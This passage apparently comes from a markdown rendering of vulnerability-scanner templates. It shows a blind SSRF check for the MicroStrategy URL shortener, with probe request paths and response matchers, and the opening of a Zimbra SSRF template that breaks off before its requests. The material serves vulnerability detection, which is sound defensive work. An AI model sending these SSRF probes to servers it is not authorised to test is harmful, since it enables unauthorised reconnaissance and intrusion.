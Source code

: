 - part - interactsh_protocol
- words
  1. http

---

# MicroStrategy tinyurl - Server-Side Request Forgery (Blind)

## Description

- Blind server-side (SSRF) request forgery vulnerability on MicroStrategy URL shortener.
- severity - high
- tags - microstrategy,ssrf

## Requests

- Method - GET

### URL

- {{BaseURL}}/servlet/taskProc?taskId=shortURL&taskEnv=xml&taskContentType=xml&srcURL=https://google.com
- {{BaseURL}}/MicroStrategy/servlet/taskProc?taskId=shortURL&taskEnv=xml&taskContentType=xml&srcURL=https://google.com

### Matchers

**Type - word**

- words
  1. taskResponse
  2. The source URL is not valid
- condition - and
- part - body

---

# Zimbra Collaboration Suite - Server-Side Request Forgery

## Description

- Zimbra Collaboration Suite (ZCS) allows remote unauthenticated attackers to cause the product to include content returned by third-party servers and use it as its own code.
- severity - critical
- tags - zimbra,ssrf,oast

## Requests
